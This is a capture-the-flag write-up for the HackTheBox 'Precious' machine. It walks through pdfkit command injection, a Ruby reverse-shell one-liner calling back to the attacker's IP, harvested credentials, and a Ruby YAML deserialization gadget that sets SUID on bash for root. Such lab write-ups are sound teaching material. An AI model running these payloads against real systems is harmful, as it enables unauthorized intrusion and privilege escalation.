


HackTheBox Precious
- Name: Precious
- IP: 10.10.11.189
- Defficulty: Easy
- OS: Linux
- Author: Nauten
Nmap
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 845e13a8e31e20661d235550f63047d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEAPxqUubE88njHItE+mjeWJXOLu5reIBmQHCYh2ETYO5zatgel+LjcYdgaa4KLFyw8CfDbRL9swlmGTaf4iUbao4jD73HV9/Vrnby7zP04OH3U/wVbAKbPJrjnva/czuuV6uNz4SVA3qk0bp6wOrxQFzCn5OvY3FTcceH1jrjrJmUKpGZJBZZO6cp0HkZWs/eQi8F7anVoMDKiiuP0VX28q/yR1AFB4vR5ej8iV/X73z3GOs3ZckQMhOiBmu1FF77c7VW1zqln480/AbvHJDULtRdZ5xrYH1nFynnPi6+VU/PIfVMpHbYu7t0mEFeI5HxMPNUvtYRRDC14jEtH6RpZxd7PhwYiBctiybZbonM5UP0lP85OuMMPcSMll65+8hzMMY2aejjHTYqgzd7M6HxcEMrJW7n7s5eCJqMoUXkL8RSBEQSmMUV8iWzHW0XkVUfYT5Ko6Xsnb+DiiLvFNUlFwO6hWz2WG8rlZ3voQ/gv8BLVCU1ziaVGerd61PODck=
| 256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFScv6lLa14Uczimjt1W7qyH6OvXIyJGrznL1JXzgVFdABwi/oWWxUzEvwP5OMki1SW9QKX7kKVznWgFNOp815Y=
| 256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH+JGiTFGOgn/iJUoLhZeybUvKeADIlm0fHnP/oZ66Qb
80/tcp open http syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Two ports are open.
- 22/TCP SSH
- OpenSSH 8.4p1
- And the banner says that this is a
DebianBox
- 80/TCP HTTP
- nginx 1.18.0
- Add
precious.htbinto/etc/hsots
Web Enumeration
http://precious.htb is a website where we can convert a webpage into an PDF.

So let’s host a webserver and test that out.
> sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Got to the http://precious.htb. Then put your web address into the search box and submit.

As soon as we hit the submit button, we can see that it give us a PDF file to download.
lfdtfqr4x2idaupq2c9gl7ll1kz9bz7q.pdf
Let’s analyze that PDF file a little bit more. If we view the metadata of the PDF with the ExifTool, we can see that it has been generated by pdfkit v0.8.6.
> exiftool lfdtfqr4x2idaupq2c9gl7ll1kz9bz7q.pdf
ExifTool Version Number : 12.50
File Name : lfdtfqr4x2idaupq2c9gl7ll1kz9bz7q.pdf
Directory : .
File Size : 17 kB
File Modification Date/Time : 2023:01:01 13:02:29+05:30
File Access Date/Time : 2023:01:01 13:02:29+05:30
File Inode Change Date/Time : 2023:01:01 13:04:39+05:30
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Creator : Generated by pdfkit v0.8.6
And if we look for a exploit for that specific version of PDFKit, we can find a Command Injection Vulnerability.
The way this vulnerability works is If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF.
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] "http://example.com/?name=%20`sleep 5`" - => nil
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
So let’s exploit this vulnerability on http://precious.htb and test if it works or not.
Provide the payload like below.
http://10.10.14.16/?name=%20`id`

And after we submit it, we can see the results of the id command within the PDF file.

Foothold [Ruby]
Since now we have the Command Injection on the box, let’s get a reverse shell. Since the PDFKit is writen in 100% ruby, the box must have ruby installed on it. Therefore we can try a ruby payload to get a reverse shell.
http://10.10.14.16/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.16",5369))'`
And we got a shell as the ruby user.
Privesc [Henry]
In the home directory of the ruby user, there is direcroty name .bundle. Inside of that directory there is config file which contains credentials of the user henry within it.
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c************YFH"
So let’s log into the box as the henry user and capture the user flag.
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ cat user.txt
323**************************a9a
Privesc [Root]
The henry user can run /opt/update_dependencies.rb as the root user with no password.
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
If we view /opt/update_dependencies.rb, we can see that it tries to load a file name dependencies.yml and which by-the-way has no absolute path. That means we can create dependencies.yml anywhere we want and run the /opt/update_dependencies.rb where we created the dependencies.yml file.
This is a YAML Deserialization attack. We can poison the dependencies.yml to run system commands as the root user (because the /opt/update_dependencies.rb is owned by the root user and the fact that we can run it as the root user).
Let’s create dependencies.yml file inside of the user henry’s home directory. The malicious dependencies.yml file would looks like this. With this we can add the SUID bit to /bin/bash.
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: chmod u+s /bin/bash
method_id: :resolve
And then run the /opt/update_dependencies.rb file.
sudo -u root /usr/bin/ruby /opt/update_dependencies.rb
And as we can see, /bin/bash now has SUID bit bind to it. Let’s become the root and capture the root flag.
henry@precious:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry)
bash-5.1# cat /root/root.txt
74f**************************f1a
Root [Uninteded]
Once we logged in to the box as the user henry, we can create a symlink to /root/root.txt in the home directory of the user henry as we created the dependencies.yml file.
henry@precious:~$ ln -s /root/root.txt dependencies.yml
henry@precious:~$ ls
dependencies.yml user.txt
And then run /opt/update_dependencies.rb as root and capture the root flag.
henry@precious:~$ sudo -u root /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
/opt/update_dependencies.rb:20:in `<main>': undefined method `each' for "74f**************************f1a":String (NoMethodError)